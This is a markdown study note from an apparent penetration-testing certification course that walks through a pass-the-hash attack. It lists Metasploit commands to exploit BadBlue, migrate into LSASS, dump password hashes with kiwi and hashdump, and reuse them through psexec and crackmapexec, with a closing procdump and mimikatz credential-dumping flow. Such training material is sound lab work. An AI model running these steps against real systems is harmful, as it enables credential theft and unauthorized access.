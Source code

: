 # Pass-The-Hash Attack
> Steals the hashed version of someone's password
> -> Uses that hash to log in as that person (Without knowing the actual password)

Start PostgreSQL and open Metasploit framework console\
[Command breakdown](https://github.com/itr-a/eJTP-Learning/blob/66b4dafe0953fbd05266c1fad910c056686ff57c/Tools/PostgreSQL.md#14)
```bash
service postgresql start && msfconsole
```
Search module
```bash
msf6> search badblue
```
Choose module from **Matching Modules**
```bash
use 1
```
Specify target IP
```bash
set RHOSTS <IP>
```
Exploit
```bash
exploit
```
Find the Process ID of LSASS (Local Security Authority Subsystem Service) process
`pgrep` is Linux command
```bash
meterpreter> pgrep lsass
```
[Command breakdown](https://github.com/itr-a/eJTP-Learning/blob/a3fee5c216c3fb40066529c6048813e24e3b5b9b/Tools/Metasploit.md#81)
```bash
meterpreter> migrate <PID>
```
Show previlege\
[Command](https://github.com/itr-a/eJTP-Learning/blob/a3fee5c216c3fb40066529c6048813e24e3b5b9b/Tools/Metasploit.md#94)
```bash
getuid
```
Load kiwi [kiwi](https://github.com/itr-a/eJTP-Learning/blob/a3fee5c216c3fb40066529c6048813e24e3b5b9b/Tools/Metasploit.md#101)
```bash
load kiwi
```
Get Administrator and TLM credentials
```bash
meterpreter> lsa_dump_sam

#Another way
meterpreter> hashdump
```
Put meterpreter session in the background (Ctr + Z)
Search for the module
(Exploit Windows SMB psexec)
```bash
exploit> search psexec
```
Set username and password
```bash
set SMBUser <username>
set SMBPass
```
Exploit
```bash
exploit
```
CrackMapExec
```bash
# In new Terminal tab
# -H <hash> for hashed password
crackmapexec smb <target-IP> -u <username> -p <password>

#-x for execute a command
~~~~ -x "whoami"
```



#### 📔 Note
- LSASS
  Why we care LSASS?
  -> `lsass.exe` stores sensitive information in memory especially:
  - Logged-in **user credentials**
  - **Password hashes**
  - Authentication tokens\
 
    
  Typical attack flow
  - Exploit the system (gain access)
  - Find `lsass` PID
   ```bash
   pgrep lsass
   ```
  - Dump memory of that PID
   ```bash
   procdump -ma <PID> lsass.dmp
   ```
  - Extract passworkds/hashes with:
  ```bash
  mimikatz lsass.dmp
  ```

